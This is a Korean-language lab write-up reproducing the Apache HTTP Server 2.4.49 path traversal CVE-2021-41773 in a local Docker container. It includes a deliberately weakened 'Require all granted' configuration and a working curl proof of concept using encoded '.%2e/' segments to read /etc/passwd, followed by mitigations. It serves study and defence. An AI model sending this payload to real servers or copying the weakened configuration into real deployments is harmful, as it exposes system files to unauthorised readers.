



# Apache HTTP Server 2.4.49 Path Traversal (CVE-2021-41773)

## 1. 취약점 요약
CVE-2021-41773은 Apache HTTP Server 2.4.49에서 발생하는 Path Traversal 취약점이다.

Apache HTTP Server는 클라이언트가 요청한 URL을 내부 파일 시스템 경로로 변환하는 과정(Path Normalization)을 수행한다. 그러나 2.4.49 버전에서는 해당 정규화 과정에 결함이 존재하여 URL에 포함된 특수한 경로(`.%2e/`)를 정상적으로 차단하지 못한다.

공격자는 이를 이용하여 웹 루트(DocumentRoot) 외부의 디렉터리까지 접근할 수 있으며, 특정 설정이 적용된 환경에서는 `/etc/passwd`와 같은 시스템 파일을 읽을 수 있다.

또한 CGI 기능이 활성화되어 있는 환경에서는 원격 코드 실행(Remote Code Execution)으로 이어질 가능성도 존재한다.

본 실습에서는 Docker 환경에서 Apache HTTP Server 2.4.49를 구축한 후, `/etc/passwd` 파일을 읽는 PoC를 통해 취약점을 재현하였다.

---

## 2. CVE 정보
| 항목 | 내용 |
|---|---|
| CVE ID | CVE-2021-41773 |
| 제품 | Apache HTTP Server |
| 취약점 유형 | Path Traversal |
| 영향 버전 | Apache HTTP Server 2.4.49 |
| 공격 방식 | Remote |
| 인증 필요 여부 | No |
| 사용자 상호작용 | 불필요 |
| 주요 영향 | 임의 파일 읽기(File Disclosure), 환경에 따라 RCE 가능 |
| CVSS v3.1 | 7.5 (High) |

---

## 3. 환경 구성

### 실습 환경
- Host OS: Windows 11
- Docker: 27.2.0
- Docker Compose: v2.29.2
- Apache Image: httpd:2.4.49
- Container Port: 80
- Host Port: 8080

실습은 Windows 11 환경에서 Docker Desktop을 이용하여 수행하였다.

---

### 디렉터리 구조
```
Apache
└── CVE-2021-41773
    ├── Dockerfile
    ├── docker-compose.yml
    ├── httpd.conf
    ├── poc.sh
    ├── README.md
    └── images
```

---

### Dockerfile
```dockerfile
FROM httpd:2.4.49

COPY httpd.conf /usr/local/apache2/conf/httpd.conf

EXPOSE 80
```
COPY 명령을 사용하여 수정한 httpd.conf를 컨테이너 내부에 복사하였다. 이를 통해 취약점 재현에 필요한 Apache 설정이 적용되도록 구성하였다.

**Dockerfile:** Apache HTTP Server 2.4.49 공식 이미지를 기반으로 취약 환경을 생성하기 위한 설정 파일
- `FROM` : Apache HTTP Server 2.4.49 이미지를 기반으로 컨테이너를 생성한다.
- `COPY` : 실습에 필요한 수정된 Apache 설정 파일(httpd.conf)을 컨테이너 내부에 복사한다.
- `EXPOSE` : Apache Web Server가 사용할 포트(80)를 명시한다.

---

### docker-compose.yml
```yaml
services:
  apache:
    build:
      context: .
      dockerfile: Dockerfile

    container_name: cve-2021-41773-apache

    ports:
      - "8080:80"
```

**docker-compose.yml:** 단일 명령어(docker compose up -d --build)만으로 동일한 실습 환경을 재현할 수 있게 하는 파일

**포트 매핑:**
- Host : 8080
- Container : 80

따라서 브라우저에서는 다음 주소를 통해 Apache에 접근할 수 있다.
```
http://localhost:8080
```

---

### Apache 설정 변경
실습에서는 취약점을 재현하기 위해 Apache 설정을 일부 수정하였다.

기본 설정
```apache
<Directory />
    AllowOverride none
    Require all denied
</Directory>
```

변경 후
```apache
<Directory />
    AllowOverride none
    Require all granted
</Directory>
```

`Require all denied`는 웹 루트 외부에 대한 접근을 차단하는 기본 보안 정책이다. 실습에서는 취약점을 재현하기 위해 `Require all granted`로 변경하여 웹 루트 외부 디렉터리에 접근할 수 있도록 구성하였다.

또한 Apache 기본 설정에 존재하는 다음 항목을 그대로 사용하였다.
```apache
ScriptAlias /cgi-bin/ "/usr/local/apache2/cgi-bin/"
```

```apache
<Directory "/usr/local/apache2/cgi-bin">
    AllowOverride None
    Options None
    Require all granted
</Directory>
```
CGI 관련 경로 설정은 Apache 기본값을 유지하였으나 CGI 모듈은 활성화하지 않았다. 본 실습에서는 원격 코드 실행(RCE)이 아닌 Path Traversal을 통한 파일 읽기만 검증하였다.

## 4. 취약 조건
CVE-2021-41773이 성공적으로 재현되기 위해서는 다음 조건을 만족해야 한다.

1. Apache HTTP Server 2.4.49 버전을 사용해야 한다.
2. 공격자가 HTTP 요청을 보낼 수 있어야 한다.
3. Apache의 Path Normalization 취약점이 존재해야 한다.
4. 웹 루트 외부 접근을 허용하는 설정(예: Require all granted)이 적용되어 있어야 한다.

본 실습에서는 아래 설정을 통해 웹 루트 외부 접근을 허용하였다.
```apache
<Directory />
    AllowOverride none
    Require all granted
</Directory>
```
기본 설정에서는 `Require all denied`가 적용되어 있으므로 웹 루트 외부 접근이 차단된다. 그러나 본 실습에서는 취약점을 재현하기 위해 `Require all granted`로 변경하여 공격자가 웹 루트 밖의 파일을 읽을 수 있도록 구성하였다.

---

## 5. 재현 절차

### 5.1 저장소 Clone
```bash
git clone https://github.com/haerim9/kr-vulhub.git
cd kr-vulhub/Apache/CVE-2021-41773
```

---

### 5.2 Docker 환경 실행
다음 명령으로 Docker 이미지를 빌드하고 컨테이너를 실행한다.
```bash
docker compose up -d --build
```

실행이 완료되면 컨테이너 상태를 확인한다.
```bash
docker compose ps
```

정상적으로 실행되면 Apache 컨테이너가 실행 중인 것을 확인할 수 있다.

---

### 5.3 Apache 정상 동작 확인
브라우저에서 다음 주소에 접속한다.
```
http://localhost:8080
```

또는 다음 명령을 실행한다.
```bash
curl http://localhost:8080/
```

Apache 기본 페이지인 **It works!** 화면이 출력되면 환경 구성이 정상적으로 완료된 것이다.

---

### 5.4 취약점 재현
다음 명령을 실행한다.
```bash
curl --path-as-is "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd"
```

Windows PowerShell에서는 다음과 같이 실행하였다.
```powershell
curl.exe --path-as-is "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd"
```
`--path-as-is` 옵션은 curl이 URL 경로를 내부적으로 정규화하지 않고 입력한 경로를 그대로 서버에 전달하도록 하는 옵션이다. 이를 통해 Apache의 Path Traversal 취약점을 그대로 재현할 수 있다.

---

## 6. PoC (Proof of Concept)
본 실습에서 사용한 PoC는 다음과 같다.

```powershell
curl.exe --path-as-is "http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd"
```

공격 URL에 포함된 `.%2e`는 URL 인코딩된 상위 디렉터리(`..`)를 의미한다. Apache 2.4.49에서는 해당 경로가 정상적으로 차단되지 않기 때문에 공격자는 웹 루트 밖의 디렉터리로 이동할 수 있다.

본 실습에서는 `/etc/passwd` 파일을 대상으로 Path Traversal을 수행하였다.

---

## 7. 실행 결과
docker compose up -d --build 실행 후 컨테이너가 정상적으로 생성되었으며, 브라우저에서 Apache 기본 페이지(It works!)가 출력되는 것을 확인하였다.

이후 PoC를 실행한 결과 `/etc/passwd` 파일의 내용이 출력되었으며, 이를 통해 Path Traversal 취약점이 정상적으로 재현됨을 확인하였다.

### Docker Build


---

### Apache 실행 확인


---

### PoC 실행 결과


PoC 실행 결과 일부는 다음과 같다.

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

이는 Apache HTTP Server가 웹 루트 밖의 `/etc/passwd` 파일을 읽어 응답하였음을 의미하며, CVE-2021-41773 취약점이 성공적으로 재현되었음을 확인할 수 있다.

---

## 8. 대응 방안
본 취약점을 예방하기 위한 대응 방안은 다음과 같다.

- CVE-2021-41773이 존재하는 Apache HTTP Server 2.4.49와, 불완전한 수정으로 후속 취약점 CVE-2021-42013이 존재하는 2.4.50을 사용하지 않고 2.4.51 이상으로 업데이트한다.
- 웹 루트 외부 디렉터리에 대해 `Require all denied` 정책을 유지한다.
- 불필요한 CGI 기능은 비활성화한다.
- 웹 서버를 최소 권한(Least Privilege)으로 실행한다.
- 웹 서버 접근 로그를 지속적으로 모니터링하여 Path Traversal 공격 시도를 탐지한다.

실제 운영 환경에서는 취약한 버전을 사용하지 않는 것이 가장 효과적인 대응 방안이며, 설정 변경만으로 취약점을 해결하려고 하기보다 공식 보안 패치를 적용하는 것이 권장된다.

---

## 9. 참고 자료
- [Apache HTTP Server Security Advisory](https://httpd.apache.org/security/vulnerabilities_24.html)
- [NIST National Vulnerability Database](https://nvd.nist.gov/vuln/detail/CVE-2021-41773)
- [CVE Program](https://www.cve.org/CVERecord?id=CVE-2021-41773)
